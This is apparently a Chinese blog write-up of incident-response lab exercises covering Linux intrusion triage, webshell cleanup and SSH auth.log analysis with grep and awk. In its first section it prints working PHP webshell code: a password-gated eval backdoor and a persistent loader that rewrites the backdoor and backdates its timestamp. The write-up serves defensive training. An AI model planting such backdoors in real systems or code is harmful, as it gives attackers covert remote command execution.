




+++
title = "玄机第一章"
slug = "xuanji-chapter-1"
description = "刷"
date = "2025-03-14T10:44:01"
lastmod = "2025-03-14T10:44:01"
image = ""
license = ""
categories = [""]
tags = ["日志分析", "应急响应"]
+++

## 第一章 应急响应- Linux入侵排查

### f1

链接之后把整个html文件夹下载下来然后让D盾里面扫一下，看到`1.php`，直接就是一个一句话，所以直接交

### f2&&f3

存在不死马，这种一般隐藏的比较好，`ls -al`直接找到`.shell.php`

```php
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

内容是这样子，但是并没有不死马的循环写入特征，D盾刚才扫出来的`index.php`才是不死马

```php
<?php
include('config.php');
include(SYS_ROOT.INC.'common.php');
$path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');
if(substr($path, 0,1)=='/'){
	$path=substr($path,1);
}
$path = Base::safeword($path);
$ctrl=isset($_GET['action'])?$_GET['action']:'run';
if(isset($_GET['createprocess']))
{
	Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);
}else{
	Index::run($path);
}
$file = '/var/www/html/.shell.php';
$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';
file_put_contents($file, $code);
system('touch -m -d "2021-01-01 00:00:01" .shell.php');
usleep(3000);
?>
```

那查一下md5，`hello`，

### f4&&f5

寻找黑客IP，看一下登录日志

```
grep "shell.php" /var/log/auth.log.1
```

发现没啥用啊，那因为这里是用的靶机，所以可以直接运行恶意文件，

```
chmod +x 'shell(1).elf'
./'shell(1).elf'
netstat -alntup
```

发现了`10.11.55.21:3333`

## 第一章 应急响应-webshell查杀

### f1

一样的下载之后放在D盾里，看到了四个文件，打开`gz.php`得到flag

### f2

看到两个比较长的木马都是`@session_start();@set_time_limit(0);@error_reporting(0);`的，所以直接搜索了一下，发现是哥斯拉



```
flag{39392de3218c333f794befef07ac9257}
```

### f3

已经找到是`.Mysqli.php`了，完整路径为

```
/var/www/html/include/Db/.Mysqli.php
```

### f4

免杀马应该是`top.php`，里面进行了一个简单的字符变换，说实话这种对字符做手脚的都有问题

```
/var/www/html/wap/top.php
```

## 第一章 应急响应-Linux日志分析

|       日志文件        |                             说明                             |
| :-------------------: | :----------------------------------------------------------: |
|   **/var/log/cron**   |                 记录了系统定时任务相关的日志                 |
|     /var/log/cups     |                      记录打印信息的日志                      |
|    /var/log/dmesg     | 记录了系统在开机时内核自检的信息，也可以使用dmesg命令直接查看内核自检信息 |
|    /var/log/mailog    |                         记录邮件信息                         |
|   /var/log/message    | 记录系统重要信息的日志。这个日志文件中会记录Linux系统的绝大多数重要信息，如果系统出现问题时，首先要检查的就应该是这个日志文件 |
|   **/var/log/btmp**   | 记录**错误登录日志**，这个文件是二进制文件，不能直接vi查看，而要**使用lastb命令查看** |
| **/var/log/lastlog**  | 记录系统中**所有用户最后一次登录时间的日志**，这个文件是二进制文件，不能直接vi，而要**使用lastlog命令查看** |
|   **/var/log/wtmp**   | 永久记录所有用户的登录、注销信息，同时记录系统的启动、重启、关机事件。同样这个文件也是一个二进制文件，不能直接vi，而**需要使用last命令来查看** |
|   **/var/log/utmp**   | **记录当前已经登录的用户信息**，这个文件会随着用户的登录和注销不断变化，只记录当前登录用户的信息。同样这个文件不能直接vi，而要**使用w,who,users等命令来查询** |
|  **/var/log/secure**  | **记录验证和授权方面的信息**，只要涉及账号和密码的程序都会记录，比如SSH登录，su切换用户，sudo授权，甚至添加用户和修改用户密码都会记录在这个日志文件中 |
| **/var/log/auth.log** | **注明：这个有的Linux系统有，有的Linux系统没有，一般都是/var/log/secure文件来记录居多** |

`grep -a`能够避免查看二进制报错

- **`auth.log` 文件主要存储与系统认证和授权相关的日志信息。具体内容包括但不限于以下几类信息：**
  - 1:**登录和注销活动：**
    **成功和失败的登录尝试
    用户注销事件**
  - 2:**认证过程：**
    **SSH 登录尝试（成功和失败）
    本地控制台登录
    Sudo 提权事件（成功和失败）**
  - 3:**安全事件：**
    **无效的登录尝试
    错误的密码输入
    锁定和解锁屏幕事件**
  - 4:**系统账户活动：**
    **用户添加、删除和修改
    组添加、删除和修改**
  - 5:PAM（Pluggable Authentication Modules）相关信息：
    各种 PAM 模块的日志输出，包括认证和会话管理

一句话看就完事了，实际环境又不会盯着一个环境看，所以刚才入侵排查的时候我也看了这个文件

### f1

```
cat auth.log.1 | grep -a "Failed password for root" | awk '{print $11}' | sort | uniq -c | sort -nr | more
```

```
flag{192.168.200.2,192.168.200.31,192.168.200.32}
```

### f2

```
cat auth.log.1 | grep -a "Accepted " | awk '{print $11}' | sort | uniq -c | sort -nr | more
```

```
flag{192.168.200.2}
```

### f3

```
cat auth.log.1 | grep -a "Failed password" |perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}'|uniq -c|sort -nr
```

```
flag{user,hello,root,test3,test2,test1}
```

### f4

```
cat auth.log.1 | grep -a "Failed password for root" | awk '{print $11}' | sort | uniq -c | sort -nr | more
```

```
flag{4}
```

### f5

```
cat auth.log.1 |grep -a "new user"
```

```
flag{test2}
```

为啥命令都是这么写的呢，很简单，这么写其实就是为了方便拿flag，真男人都是丁真找规律，这个日志也就一百来行，便于我们分析，第一个问题他要找登录失败的



找到特征之后其实就可以写命令了

```
cat auth.log.1 | grep -a "Failed password for root"
```



但是要自己数次数，我们再优化一下

```
cat auth.log.1 | grep -a "Failed password for root" | awk '{print $11}' | sort | uniq -c
```

提取第11列，`uniq -c`计数，`sort`排序，第二题登录成功的，我们换一下特征就出了

```
cat auth.log.1 | grep -a "Accepted password for root" | awk '{print $11}' | sort | uniq -c
```

爆破用户名的字典就是提取用户名嘛，直接提取用户名

```
cat auth.log.1 | grep -a "Failed password" | awk '{print $11}'
```

但是这样子有IP什么的混在里面，得给过滤了

```
cat auth.log.1 | grep -a "Failed password" | awk '{if ($11 !~ /from/ && $11 !~ /^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+$/) print $11}'| sort | uniq -c
```

这样子就能拿到五个用户名，当然别忘了我们的`root`



创建后门用户直接写就好了

```
cat auth.log.1 |grep -a "new user" |awk '{print $8}'
```

得到两个，都交一下就好了
